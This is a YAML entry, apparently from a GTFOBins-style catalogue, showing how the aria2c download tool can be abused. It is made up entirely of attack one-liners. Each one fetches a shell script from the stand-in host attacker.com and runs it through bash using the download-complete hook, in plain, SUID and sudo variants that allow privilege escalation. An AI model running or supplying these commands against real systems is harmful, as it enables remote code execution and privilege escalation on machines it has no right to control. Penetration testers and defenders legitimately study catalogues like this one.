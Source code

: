```yaml
---
description: |
  Note that the subprocess is immediately sent to the background.

  The remote file `aaaaaaaaaaaaaaaa` (must be a string of 16 hex digit) contains the shell script. Note that said file needs to be written on disk in order to be executed.
functions:
  execute-non-interactive:
    - code: aria2c --gid=aaaaaaaaaaaaaaaa --on-download-complete=bash http://attacker.com/aaaaaaaaaaaaaaaa
  suid-enabled:
    - code: ./aria2c --gid=aaaaaaaaaaaaaaaa --on-download-complete=bash http://attacker.com/aaaaaaaaaaaaaaaa
  sudo-enabled:
    - code: sudo aria2c --gid=aaaaaaaaaaaaaaaa --on-download-complete=bash http://attacker.com/aaaaaaaaaaaaaaaa
---
```

